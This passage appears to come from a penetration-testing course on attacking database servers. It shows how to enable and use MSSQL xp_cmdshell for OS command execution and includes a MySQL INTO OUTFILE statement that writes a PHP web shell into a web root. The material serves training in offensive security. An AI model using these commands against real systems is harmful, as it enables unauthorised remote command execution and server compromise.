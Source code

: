 #### XP_CMDSHELL
```cmd-session
1> xp_cmdshell 'whoami'
2> GO
```

If `xp_cmdshell` is not enabled, we can enable it, if we have the appropriate privileges, using the following command:
```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
go 

-- To update the currently configured value for this feature.  
RECONFIGURE
go
```

There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). However, besides those methods there are also additional functionalities that can be used like the `xp_regwrite` command that is used to elevate privileges by creating new entries in the Windows registry. Nevertheless, those methods are outside the scope of this module.

`MySQL` supports [User Defined Functions](https://dotnettutorials.net/lesson/user-defined-functions-in-mysql/) which allows us to execute C/C++ code as a function within SQL, there's one User Defined Function for command execution in this [GitHub repository](https://github.com/mysqludf/lib_mysqludf_sys). It is not common to encounter a user-defined function like this in a production environment, but we should be aware that we may be able to use it.

### Write Local Files

`MySQL` does not have a stored procedure like `xp_cmdshell`, but we can achieve command execution if we write to a location in the file system that can execute our commands.

#### MySQL - Write Local File
```shell-session
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

In `MySQL`, a global system variable [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege.
